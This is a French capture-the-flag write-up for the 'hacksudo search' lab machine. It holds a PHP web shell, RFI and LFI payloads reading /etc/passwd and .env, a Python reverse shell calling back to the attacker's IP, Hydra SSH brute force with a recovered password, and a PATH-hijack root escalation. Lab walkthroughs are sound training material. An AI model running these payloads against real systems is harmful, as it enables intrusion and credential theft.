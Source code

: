 # La box

```diff
+ niveau: facile
```

Dans cette box nous verrons: 
* Du FUZZ
* Une RFI et/ou LFI (au choix) 
* Exploitation d'un binaire avec sticky bit

# Nmap
 
   `nmap hacksudo_search -A`
``` 
   PORT   STATE SERVICE VERSION
   22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
   | ssh-hostkey:
   |   2048 7b:44:7c:da:fb:e5:e6:1d:76:33:eb:fa:c0:dd:77:44 (RSA)
   |   256 13:2d:45:07:32:83:13:eb:4e:a1:20:f4:06:ba:26:8a (ECDSA)
   |_  256 21:a1:86:47:07:1b:df:b2:70:7e:d9:30:e3:29:c2:e7 (ED25519)
   80/tcp open  http    Apache httpd 2.4.38 ((Debian))
   |_http-server-header: Apache/2.4.38 (Debian)
   |_http-title: HacksudoSearch
   Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
``` 
 
# Enumération Web
 
   `gobuster dir -u http://hacksudo_search -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
 
Grace à un gobuster on trouve la page search1.php (avec l'option pour les extensions php)
 
# Première méthode: RFI
 
 
Dans notre répertoire courant, on crée le fichier rfi.php tel que:
 ```
   <?php
   echo "<script>alert(Archimed own you);</script>";
   echo "Run command: ".htmlspecialchars($_GET['cmd']);
 
   system($_GET['cmd']);
   ?>
 ```
 
On créer un serveur HTTP à la volé à l'aide de python3:
 
  ` python -m http.server 8000`
 
Puis on exploite la RFI avec le paramètre &cmd=id (pour vérifier que cela fonctionne) comme suit:
 
   `http://192.168.0.37/search1.php?me=http://192.168.0.10:8000/rfi.php&cmd=id`
 
Il est possible d'uploader un fichier sur le site internet en utilisant 'wget' et en plaçant un fichier malicieux sur notre serveur http provisoir
 
   `http://192.168.0.37/search1.php?me=http://192.168.0.10:8000/rfi.php&cmd=wget+http://192.168.0.10:8000/rfi.php`
 
Nous pouvons uploader le shell yolo.php
 
Lorsque nous accédons à la page http://hacksudo_search/yolo.php nous pouvons maintenant exécuter des commandes.
 
Avant toute chose, nous plaçons un netcat en écoute pour pouvoir y "envoyer" un shell
 
   `netcat -lvnp 4242`
 
Après avoir essayé quelques payload avec netcat et bash, c'est une reverse payload python qui à réussi à fonctionner:
 
   `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.10",4242));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'`
 
# Seconde méthode: LFI
 
## Recherche de la LFI
 
En cliquant sur "Contact" on remarque qu'il est possible de passer des paramètres dans l'URL suivant:
 
   `http://192.168.0.37/search1.php?FUZZ=contact.php`
 
Il s'agit d'un indice non négligeable.
Essayons donc de "fuzzer" ce terme pour voir si une LFI est présente:
 
   `wfuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.0.37/search1.php?FUZZ=../../../../../../../../etc/passwd`
 
(On note le nombre de ligne qu'il y a sur les réponses "générique" et on ajoute l'option --hl (hide line) pour cacher ces réponses là et n'avoir que les réponses particulière)
 
   `wfuzz -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://192.168.0.37/search1.php?FUZZ=../../../../../../../../etc/passwd --hl 137`
 
 
La LFI:
 
   `http://192.168.0.37/search1.php?me=../../../../../../../etc/passwd`
 
Cela nous permet d'avoir des users, maintenant pour les mot de passes essayons le fichier .env du répertoire courant:
 
   `http://192.168.0.37/search1.php?me=.env`
 
## BruteForce avec Hydra
 
bruteforce sur le service SSH à l'aide de hydra:
 
   `hydra -L user -P pass 192.168.0.37 ssh`
 
On trouve les crédentials suivants:
 
`hacksudo:MyD4dSuperH3r0!`
 
 
# Privilège Escalation
 
Une fois connecté, en utilisant linpeas.sh (télécharger à l'aide d'un get) on se rend comte qu'un fichier ./searchinstall possède un stickybit.
On peut aussi trouver à l'aide de ls -al -R (dans le répertoire de hacksudo).
ou la commande find permettant de trouver les sticky bits.
 
Le code C non compilé se trouve aussi dans le répertoire, on observe le code, il permet d'utiliser la commande "install" en temps que root (mais sans argument possible, donc impossible d'utiliser la méthode de GTFOBins).
 
On crée alors un fichier install comme suit:
 `
   #!/bin/bash
   bash
 `
On ajoute les droit d'exec, puis on ajoute le PATH du répertoire
 
`export PATH = /home/hacksudo/search/tools:$PATH`
 
En faisant ./searchinstall cela va chercher la commande install que nous avons créer et l'exécuter en temps que root. Dans ce cas précis, cela va nous fournir un shell bash avec les droits root.
 
 
 


